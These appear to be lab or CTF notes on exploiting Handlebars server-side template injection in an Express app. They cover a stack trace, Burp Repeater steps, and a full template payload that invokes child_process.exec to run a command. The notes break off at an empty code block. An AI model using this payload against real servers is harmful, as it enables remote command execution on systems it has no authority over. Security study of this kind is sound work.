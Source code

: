 ```json
5	"    at Parser.parse (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:337:30)"
6	"    at HandlebarsEnvironment.parse (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43)"
7	"    at compileInput (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19)"
8	"    at ret (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18)"
9	"    at router.post (/root/Backend/routes/handlers.js:15:18)"
10	"    at Layer.handle [as handle_request] (/root/Backend/node_modules/express/lib/router/layer.js:95:5)"
11	"    at next (/root/Backend/node_modules/express/lib/router/route.js:137:13)"
12	"    at Route.dispatch (/root/Backend/node_modules/express/lib/router/route.js:112:3)"
13	"    at Layer.handle [as handle_request] (/root/Backend/node_modules/express/lib/router/layer.js:95:5)"
```

In burp suite enable the Interpreter and pass payloads.
the test payload  that that was passed was {{7`*`7}} to test that we can inject handle bars code .  This is proven to be true.

We need to send the request to the Repeater and then add the payload via the decoder  user the encode as URL see the images below:
![[Pasted image 20230329150057.png]]
*Image above shows that the payload can be added to the request and the email parameter where the payload needs to be to passed to*

![[Pasted image 20230329150028.png]]
*Image above shows that the payload that will be created that we can then add to the repeater*
- This is payload used
```shell
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
- Having added the payload we get the following error and sent it back to the repeater we get the following error becasue require is not a global variable. in order the the code to work we need to use global variables
```shell
```